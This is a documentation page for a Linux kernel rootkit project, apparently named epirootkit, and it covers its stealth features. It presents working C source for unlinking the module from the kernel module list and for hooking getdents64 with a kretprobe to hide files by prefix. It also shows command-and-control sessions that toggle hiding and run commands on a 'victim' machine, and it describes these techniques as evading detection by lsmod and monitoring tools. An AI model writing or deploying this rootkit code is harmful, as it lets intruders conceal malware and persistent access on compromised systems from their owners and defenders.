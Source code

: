 ```yaml
---
title: "Stealth & Hiding"
description: "Module hiding and file hiding capabilities"
icon: "visibility_off"
date: "2025-05-25T00:00:00+01:00"
lastmod: "2025-05-25T16:00:00+01:00"
draft: false
toc: true
weight: 53
---
```


# Stealth & Hiding

Hide the rootkit module and files from system detection using kernel hooking techniques.

## What We Implemented

### Module Hiding
- **Hide from `lsmod`**: Remove module from kernel module list
- **Hide from `/proc/modules`**: Module not visible in procfs
- **Dynamic control**: Toggle visibility via C2 commands

### File Hiding
- **Hide by prefix**: Files with specific prefixes are hidden
- **Directory listing**: Intercept `getdents64` syscall
- **Automatic hiding**: Enabled by default when module loads

## Module Hiding

### How It Works
1. **Find module**: Locate rootkit in kernel module list
2. **Remove from list**: Use `list_del()` to remove from `modules` list
3. **Store reference**: Keep pointer to restore later
4. **Toggle visibility**: Can hide/unhide dynamically

### Implementation
```c
int hide_module(void)
{
    struct module *mod;
    
    mutex_lock(&module_mutex);
    list_for_each_entry(mod, &modules, list) {
        if (mod == THIS_MODULE) {
            stealth_state.prev_module_entry = mod->list.prev;
            list_del(&mod->list);
            stealth_state.module_hidden = true;
            break;
        }
    }
    mutex_unlock(&module_mutex);
    return 0;
}
```

### Usage
```bash
# Hide the module
c2-server$ config Client-1
# Select: Toggle Module Hiding
# ✓ Module hidden

# Verify hiding (from victim system)
victim$ lsmod | grep epirootkit
# (no output - module is hidden)

# Check status
c2-server$ status Client-1
# Module Hidden: YES
```

### Detection Evasion
- **`lsmod` command**: Module not listed
- **`/proc/modules`**: Entry removed from procfs
- **System monitoring**: Most tools rely on these sources

## File Hiding

### How It Works
1. **Hook `getdents64`**: Use kretprobe to intercept directory listings
2. **Filter entries**: Remove files with configured prefixes
3. **Modify buffer**: Adjust directory entry buffer
4. **Return filtered**: Send modified listing to userspace

### Hidden File Prefixes
Files starting with these prefixes are automatically hidden:
```c
static const char * const hide_prefixes[] = { 
    "epirootkit",
    "jules_est_bo_", 
    "memfd:",
    ".hidden_",
};
```

### Implementation
```c
static int getdents64_ret_handler(struct kretprobe_instance *ri, 
                                 struct pt_regs *regs)
{
    struct getdents_context *ctx = (struct getdents_context *)ri->data;
    const long ret_value = regs_return_value(regs);
    char *kernel_buffer;
    long filtered_size;

    // Copy user buffer to kernel space for filtering
    kernel_buffer = kmalloc(ret_value, GFP_ATOMIC);
    if (copy_from_user(kernel_buffer, ctx->user_buffer, ret_value) == 0) {
        filtered_size = filter_directory_entries(kernel_buffer, ret_value);
        if (filtered_size != ret_value) {
            copy_to_user(ctx->user_buffer, kernel_buffer, filtered_size);
            regs_set_return_value(regs, filtered_size);
        }
    }

    kfree(kernel_buffer);
    return 0;
}
```

### Examples of Hidden Files
```bash
# These files are hidden from 'ls' output:
/tmp/epirootkit_temp
/var/log/epirootkit.log
/home/user/epirootkit_config
/tmp/jules_est_bo_secret
/tmp/.hidden_file
/tmp/memfd:something
```

### Testing File Hiding
```bash
# Create test files
c2-server$ exec Client-1 touch /tmp/epirootkit_test
c2-server$ exec Client-1 touch /tmp/normal_file

# List directory (file hiding active)
c2-server$ exec Client-1 ls -la /tmp/
# Only shows: normal_file (epirootkit_test is hidden)

# Files still exist and accessible
c2-server$ exec Client-1 cat /tmp/epirootkit_test
# Works fine - file exists but hidden from listings
```

## Dynamic Control

### Interactive Configuration
```bash
c2-server$ config Client-1
# ┌─ Configuration - Client-1
#   Current Configuration:
#   [X] Module Hiding (Click to disable)
#   
# ? Select option: [Use arrow keys]
#   ❯ [X] Module Hiding (Click to disable)
#     Refresh Status
#     Exit
```

## Technical Details

### Syscall Hooking
- **Method**: kretprobe on `getdents64` syscall
- **Kernel version**: Compatible with Linux 5.4.0
- **Memory safety**: GFP_ATOMIC allocations with 4KB limit
- **Error handling**: Graceful fallback on allocation failures

### Module List Manipulation
- **Mutex protection**: Uses `module_mutex` for thread safety
- **List operations**: Standard kernel `list_del()` and `list_add()`
- **State tracking**: Maintains hiding state in global structure



### Customize Hidden Prefixes
Edit the `hide_prefixes` array in `stealth.c` to change which files are hidden.